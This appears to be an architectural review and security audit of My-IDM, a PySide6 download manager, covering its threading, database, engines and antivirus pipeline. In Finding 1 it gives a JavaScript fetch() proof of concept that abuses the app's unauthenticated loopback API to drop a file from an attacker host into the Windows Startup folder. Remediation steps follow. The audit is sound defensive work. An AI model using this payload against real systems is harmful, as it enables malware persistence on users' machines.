

# Whole-Project Architectural Review & Systems Audit

**Repository:** `My-IDM`  
**Date:** October 2026  
**Auditor:** Antigravity AI Engine  
**Status:** Canonical Architectural Review  

---

## 🏛️ Executive Summary

**My-IDM** is a cross-platform desktop download manager developed with **PySide6 (Qt for Python)**, **asyncio/aiohttp**, and **libtorrent**. The application provides multi-connection segmented HTTP acceleration, complete BitTorrent lifecycle management, integrated Tor SOCKS5 and VPN kill-switch privacy, two-phase antivirus protection, and automated scraper ingestion for YouTube (`yt-dlp`) and AnimePahe.

The system demonstrates high engineering rigor in its cross-thread synchronization, hermetic test harness (2,590+ tests), and fail-closed security logic. However, an architectural audit reveals key areas of structural risk:
1. **Critical Security Vulnerability**: An open, unauthenticated loopback REST server with wildcard CORS allowing drive-by local file execution/overwrites from the web.
2. **Monolithic "God Objects"**: Excessive coupling in [`my_idm/manager.py:379`](file:///d:/Projects/my-idm/my_idm/manager.py#L379) (3,585 lines) and [`my_idm/main_window.py:505`](file:///d:/Projects/my-idm/my_idm/main_window.py#L505) (4,153 lines).
3. **Data Integrity Footguns**: Shallow dictionary mutation traps in dynamic metadata serialization ([`_MetadataDict`](file:///d:/Projects/my-idm/my_idm/database.py#L499)).
4. **Scalability Ceilings**: In-memory linear list models in Qt table views.

---

## 📊 Architectural Health Scorecard

| Architectural Dimension | Score | Primary Strengths | Identified Risks & Technical Debt |
| :--- | :---: | :--- | :--- |
| **Concurrency & Threading** | **9.0 / 10** | Clean hybrid Qt/asyncio bridge, condition-variable guarded shutdown (`_timer_slots_cond`). | Thread sprawl from ad-hoc daemon workers (`yt-dlp`, antivirus scans). |
| **Download Engines** | **8.5 / 10** | Multi-segment sparse writes, connection staggering ceiling, Mode A/B direct stream split. | Lack of HTTP/2 multiplexing; heavy reliance on parallel TCP sockets. |
| **Persistence & State** | **8.0 / 10** | SQLite WAL mode, multi-thread connection lock (`_LockedCursor`), idempotent schema migration. | `_MetadataDict` nested mutation trap; linear table model in-memory scaling. |
| **Queue & Concurrency** | **9.0 / 10** | Dual-ceiling budgets (global + per-queue), dense priority ordering, grouped SQL counting. | Off-peak scheduling and hard bandwidth caps not yet implemented. |
| **Security & Privacy** | **5.0 / 10** | Tri-state fail-closed AV verdict, sentinel CLI injection prevention, Tor/VPN kill switch. | **CRITICAL:** Unauthenticated loopback REST API with wildcard CORS accepts arbitrary paths. |
| **Modularity & Coupling** | **5.5 / 10** | Clear 4-layer conceptual model (GUI → Manager → Engines → SQLite). | "God Objects" in core coordinator and UI; tight coupling to external scraper tools. |
| **Test Quality & Coverage** | **9.5 / 10** | 2,590+ hermetic tests, two-tier execution (`basic` vs `full`), zero desktop clipboard contamination. | Full suite runtime (~4–7 min); high setup cost for full UI integration specs. |

---

## 🧩 Topology & Threading Architecture

The application is structured into four primary tiers with distinct execution boundaries:

```
┌────────────────────────────────────────────────────────────────────────┐
│                              GUI Layer                                 │
│    MainWindow (QMainWindow) ──► DownloadTableModel ──► Delegates       │
│    DetailsPanel (5 Tabs)    ──► Dialogs (Settings, Queues, Stats)      │
└───────────────────────────────────▲────────────────────────────────────┘
                                    │ Qt Signals / Slots
┌───────────────────────────────────▼────────────────────────────────────┐
│                            Manager Layer                               │
│                      DownloadManager (QObject)                         │
│  Orchestration, Queue Budgets, Backlog Polling, Browser/External Tools │
└───────────────────────────▲──────────────────────────────▲─────────────┘
                            │                              │
             Main ──► Async │ run_coroutine_threadsafe     │ Polling Timer (1 Hz)
             Async ──► Main │ Qt Cross-Thread Signals      │ Session Alerts
                            ▼                              ▼
┌───────────────────────────────────────┐  ┌─────────────────────────────┐
│          HTTP Engine Subsystem        │  │  BitTorrent Engine Subsystem│
│      HTTPEngine (asyncio/aiohttp)     │  │  TorrentEngine (libtorrent) │
│   Segmented parallel range downloads  │  │  P2P Swarm, DHT/PEX, resume │
└───────────────────▲───────────────────┘  └──────────────▲──────────────┘
                    │                                     │
                    └──────────────────┬──────────────────┘
                                       │
┌──────────────────────────────────────▼─────────────────────────────────┐
│                           Persistence Layer                            │
│                       Database (SQLite with WAL)                       │
│      DownloadEntry, SegmentEntry, QueueInfo, ui_state, migrations      │
└────────────────────────────────────────────────────────────────────────┘
```

### Execution Contexts & Synchronization Primitives

1. **Qt Main Thread**:
   - Executes the `QApplication` event loop and UI repainting.
   - Hosts [`DownloadManager`](file:///d:/Projects/my-idm/my_idm/manager.py#L379) as a `QObject`.
   - Drives periodic 1 Hz polling timers: `_torrent_timer` (alert harvest), `_retry_timer` (queue dispatch), `_backlog_timer`.
2. **asyncio Loop Thread (`idm-async`)**:
   - Long-lived background thread executing [`HTTPEngine`](file:///d:/Projects/my-idm/my_idm/http_engine.py#L69).
   - Manages asynchronous chunk streaming, connection staggering, and TLS fingerprint impersonation (`curl_cffi`).
   - Cross-thread communication:
     - *Main → Async*: Dispatches coroutines via `asyncio.run_coroutine_threadsafe(coro, loop)`.
     - *Async → Main*: Invokes engine callbacks that trigger Qt signals across thread boundaries.
3. **Dedicated Daemon Worker Threads**:
   - `ytdlp-download` / `yt-extract`: Native Python daemon threads running `yt-dlp`. (Adheres to the architectural rule prohibiting `QThread` to prevent interpreter aborts upon sudden exit).
   - `scan-<id>`: Short-lived daemon threads running antivirus binaries.
   - `TorProbeThread`: Probes the Tor SOCKS5 local socket off-thread to avoid blocking GUI events.

### Threading Hardening: The Teardown Race
Stopping periodic timers in Qt does not halt callbacks that have already entered their slot. A timer iteration running [`Database.update_status`](file:///d:/Projects/my-idm/my_idm/database.py#L865) concurrently with application teardown previously crashed on a closed connection.
- **Architectural Solution**: [`DownloadManager._timer_slot()`](file:///d:/Projects/my-idm/my_idm/manager.py#L504) tracks active slot iterations using `_timer_slots_cond` ([`my_idm/manager.py:463`](file:///d:/Projects/my-idm/my_idm/manager.py#L463)).
- During [`DownloadManager.stop()`](file:///d:/Projects/my-idm/my_idm/manager.py#L522), the shutdown routine acquires the condition variable and blocks until all in-flight iterations return before proceeding to close engines and the database.

---

## 🔍 Subsystem Deep Dives

### 1. Persistence & Data Integrity (`database.py`)
- **Connection Serialization**: SQLite configured with `check_same_thread=False` and `journal_mode=WAL`. To avoid data races between the main thread and the `idm-async` thread, [`_LockedCursor`](file:///d:/Projects/my-idm/my_idm/database.py#L108) wraps `execute()` and fetches with an re-entrant lock (`RLock`).
- **Dynamic Extensibility**: [`DownloadEntry.metadata_json`](file:///d:/Projects/my-idm/my_idm/database.py#L447) provides schema-less key-value persistence for cookies, headers, and tool-specific flags.
- **Identified Trap**: [`_MetadataDict`](file:///d:/Projects/my-idm/my_idm/database.py#L499) only synchronizes on top-level key mutations. Modifying a nested list or dict in-place fails to trigger serialization, silently discarding edits unless the top-level property is explicitly re-assigned.

### 2. Concurrency & Named Queues (`queues.md`, `manager.py`)
- **Dual-Ceiling Concurrency Gate**: Concurrency is evaluated in [`DownloadManager._may_start()`](file:///d:/Projects/my-idm/my_idm/manager.py#L1891). A download only dispatches if both the global `max_concurrent_downloads` ceiling and the queue's specific `max_concurrent` budget have open capacity.
- **Optimized SQL Counting**: Active concurrency is gathered in a single SQL query via [`Database.get_active_counts_by_queue()`](file:///d:/Projects/my-idm/my_idm/database.py#L983) using `GROUP BY queue_id`, eliminating prior $O(N^2)$ candidate scans.
- **In-Flight Anti-Overshoot**: `_starting_downloads` tracks entries that have been dispatched to an engine but have not yet registered an active database status, preventing batch-start race conditions.

### 3. Dual Engine Mechanics
- **HTTP Engine (`http_engine.py`)**:
  - Segmented downloading pre-allocates total file size on disk to prevent fragmentation and writes parallel chunks via `seek()`.
  - Staggered connection startup (`MAX_SEGMENT_STAGGER_TOTAL_S = 2.0s` at [`my_idm/http_engine.py:45`](file:///d:/Projects/my-idm/my_idm/http_engine.py#L45)) scales connection delays to prevent server-side bot flags without causing excessive dead time.
  - Automatically falls back to single-stream downloading if servers reject `Accept-Ranges` or return HTTP 416/403.
- **BitTorrent Engine (`torrent_engine.py`)**:
  - Encapsulates `libtorrent` session alert dispatching ([`my_idm/torrent_engine.py:227`](file:///d:/Projects/my-idm/my_idm/torrent_engine.py#L227)).
  - Persists bencoded resume data to `~/.my-idm/fastresume/<id>.fastresume` to enable instantaneous startup resume without re-hashing piece data.
  - Resolves magnet links with a configurable timeout (`metadata_fetch_timeout_days`), automatically transitioning dead swarms to `'suspended'` so they do not exhaust active download slots.

### 4. Security & Antivirus Pipeline (`security.py`)
- **Pre-download safety**: Inspects URLs for dangerous extensions, bare IP hosts, and queries VirusTotal v3.
- **Post-download scanning**: Dispatches to Windows Defender or ClamAV. The scan returns a tri-state tuple `(verdict: bool | None, report: str)` at [`my_idm/security.py:450`](file:///d:/Projects/my-idm/my_idm/security.py#L450). Returning `None` when a scanner cannot run prevents fail-open security flaws on non-Windows platforms.
- **CLI Argument Sentinel**: To prevent command injection from malicious torrent/HTTP filenames, the `%file%` placeholder is replaced with a sentinel ([`_TEMPLATE_SENTINEL`](file:///d:/Projects/my-idm/my_idm/security.py#L27)) before `shlex.split`, safely handling paths containing spaces or shell metacharacters without using `shell=True`.

---

## ⚠️ Critical Architectural Findings & Vulnerabilities

### Finding 1: Drive-By Remote File Write via Open REST API (CRITICAL)

#### Vulnerability Analysis
The loopback REST server ([`BrowserServer`](file:///d:/Projects/my-idm/my_idm/browser_server.py#L39)) listens on `127.0.0.1:19582` to communicate with the browser extension.
1. In [`_cors_headers()`](file:///d:/Projects/my-idm/my_idm/browser_server.py#L61-L66), it serves wildcard CORS:
   ```python
   "Access-Control-Allow-Origin": "*"
   ```
2. In [`_handle_add()`](file:///d:/Projects/my-idm/my_idm/browser_server.py#L151), the server processes incoming POST requests without any authentication token, session cookie, or origin validation.
3. In [`DownloadManager.add_download_from_browser()`](file:///d:/Projects/my-idm/my_idm/manager.py#L1804-L1860), the client-supplied `save_path` is accepted directly:
   ```python
   save_path=save_path or self._general_config.get_effective_save_path()
   ```

#### Exploitation Vector
Any malicious webpage visited in a standard web browser can execute a cross-origin `fetch()` call to `http://127.0.0.1:19582/add`:
```javascript
fetch("http://127.0.0.1:19582/add", {
  method: "POST",
  headers: {"Content-Type": "application/json"},
  body: JSON.stringify({
    url: "https://attacker.com/malware.bat",
    filename: "update.bat",
    save_path: "C:\\Users\\User\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup"
  })
});
```
This triggers an automatic download and write of an executable payload into the user's Startup directory without user confirmation.

#### Required Remediation
- **Remove Wildcard CORS**: Restrict `Access-Control-Allow-Origin` strictly to verified extension schemes (`chrome-extension://<id>`, `moz-extension://<id>`).
- **Enforce Secret Token Authentication**: Require a shared bearer token generated in the user profile (`~/.my-idm/extension_secret.json`) and forwarded via HTTP headers.
- **Sanitize `save_path`**: Disallow arbitrary client-specified target paths; enforce saving strictly to the configured user downloads folder.

---

### Finding 2: "God Object" Coupling in Core Classes (HIGH)

#### Vulnerability Analysis
- [`my_idm/manager.py`](file:///d:/Projects/my-idm/my_idm/manager.py#L379) (3,585 lines): `DownloadManager` acts as a monolithic coordinator responsible for:
  - Download dispatching & retry state machines
  - Named queue concurrency budgets
  - Tor subprocess discovery & daemon supervision
  - Backlog text file discovery and directive parsing
  - AnimePahe scraping and CLI process orchestration
  - YouTube yt-dlp job queuing
  - Antivirus dispatching
  - Browser loopback server hosting
- [`my_idm/main_window.py`](file:///d:/Projects/my-idm/my_idm/main_window.py#L505) (4,153 lines): `MainWindow` combines table management, toolbar layout, custom delegates, menu actions, settings dialog lifecycle, system tray orchestration, and low-level Win32 event filters.

#### Architectural Impact
- High cognitive load and elevated risk of side-effects during refactoring.
- Tightly couples unrelated subsystems (e.g., AnimePahe scrapers directly embedded in download manager lifecycle).

#### Recommended Refactoring
Decompose `DownloadManager` into specialized service coordinators:
- `QueueScheduler`: Concurrency budgets, queue slot allocation, priority ordering.
- `BacklogService`: Multi-path backlog discovery and directive parsing.
- `ExternalToolCoordinator`: Lifecycle management for AnimePahe and YouTube tools.
- `CoreDownloadManager`: Pure orchestrator delegating directly to engines.

---

### Finding 3: In-Memory Table Model Scaling Ceilings (MEDIUM)

#### Vulnerability Analysis
[`DownloadTableModel`](file:///d:/Projects/my-idm/my_idm/download_model.py) stores all history items in an in-memory list `self._entries`. Search filtering, type segregation, and date-based group sorting iterate over the full dataset in Python.
- If history grows past 10,000+ entries, linear filtering and model repainting will introduce noticeable UI latency on the Qt main thread.
- **Remediation**: Introduce database-backed lazy loading (`QSqlQueryModel` or SQL `LIMIT`/`OFFSET` pagination) for completed historical rows, keeping only active/queued items resident in active memory.

---

## 🎯 Architectural Roadmap



---

## 📌 Verified Source Symbol Index

*(All line numbers verified against codebase as of October 2026)*

| Component | File & Verified Line | Description |
| :--- | :--- | :--- |
| `DownloadManager` | [`my_idm/manager.py:379`](file:///d:/Projects/my-idm/my_idm/manager.py#L379) | Core orchestrator coordinating engines, database, and signals. |
| `_timer_slots_cond` | [`my_idm/manager.py:463`](file:///d:/Projects/my-idm/my_idm/manager.py#L463) | Condition variable preventing timer slot shutdown race conditions. |
| `_timer_slot` | [`my_idm/manager.py:504`](file:///d:/Projects/my-idm/my_idm/manager.py#L504) | Context manager marking active timer callbacks. |
| `add_download_from_browser` | [`my_idm/manager.py:1804`](file:///d:/Projects/my-idm/my_idm/manager.py#L1804) | Ingestion entrypoint for browser downloads accepting `save_path`. |
| `_may_start` | [`my_idm/manager.py:1891`](file:///d:/Projects/my-idm/my_idm/manager.py#L1891) | Dual-ceiling queue budget evaluation. |
| `MainWindow` | [`my_idm/main_window.py:505`](file:///d:/Projects/my-idm/my_idm/main_window.py#L505) | Primary application window and UI coordinator. |
| `BrowserServer` | [`my_idm/browser_server.py:39`](file:///d:/Projects/my-idm/my_idm/browser_server.py#L39) | Embedded aiohttp REST server on loopback (`127.0.0.1:19582`). |
| `_cors_headers` | [`my_idm/browser_server.py:61`](file:///d:/Projects/my-idm/my_idm/browser_server.py#L61) | Permissive wildcard CORS definition (`Access-Control-Allow-Origin: *`). |
| `_handle_add` | [`my_idm/browser_server.py:151`](file:///d:/Projects/my-idm/my_idm/browser_server.py#L151) | Unauthenticated POST route handling browser download addition. |
| `HTTPEngine` | [`my_idm/http_engine.py:69`](file:///d:/Projects/my-idm/my_idm/http_engine.py#L69) | Segmented parallel HTTP download engine. |
| `MAX_SEGMENT_STAGGER_TOTAL_S` | [`my_idm/http_engine.py:45`](file:///d:/Projects/my-idm/my_idm/http_engine.py#L45) | Connection startup delay ceiling (2.0s). |
| `TorrentEngine` | [`my_idm/torrent_engine.py:227`](file:///d:/Projects/my-idm/my_idm/torrent_engine.py#L227) | BitTorrent libtorrent session abstraction. |
| `_LockedCursor` | [`my_idm/database.py:108`](file:///d:/Projects/my-idm/my_idm/database.py#L108) | Thread-safe SQLite cursor proxy holding connection lock. |
| `DownloadEntry` | [`my_idm/database.py:426`](file:///d:/Projects/my-idm/my_idm/database.py#L426) | Dataclass representing a persistent download record. |
| `_MetadataDict` | [`my_idm/database.py:499`](file:///d:/Projects/my-idm/my_idm/database.py#L499) | Dictionary proxy serializing top-level changes to `metadata_json`. |
| `get_active_counts_by_queue` | [`my_idm/database.py:983`](file:///d:/Projects/my-idm/my_idm/database.py#L983) | Grouped SQL query for queue concurrency counting. |
| `_TEMPLATE_SENTINEL` | [`my_idm/security.py:27`](file:///d:/Projects/my-idm/my_idm/security.py#L27) | Sentinel string preventing argument injection in custom AV commands. |
| `_scan_with_custom` | [`my_idm/security.py:341`](file:///d:/Projects/my-idm/my_idm/security.py#L341) | Command-line scanner executor using shlex tokenization without `shell=True`. |
| `scan_file` | [`my_idm/security.py:450`](file:///d:/Projects/my-idm/my_idm/security.py#L450) | Main file scanner entrypoint returning tri-state verdict. |
| `Col` | [`my_idm/download_model.py:46`](file:///d:/Projects/my-idm/my_idm/download_model.py#L46) | Table view column enumeration. |
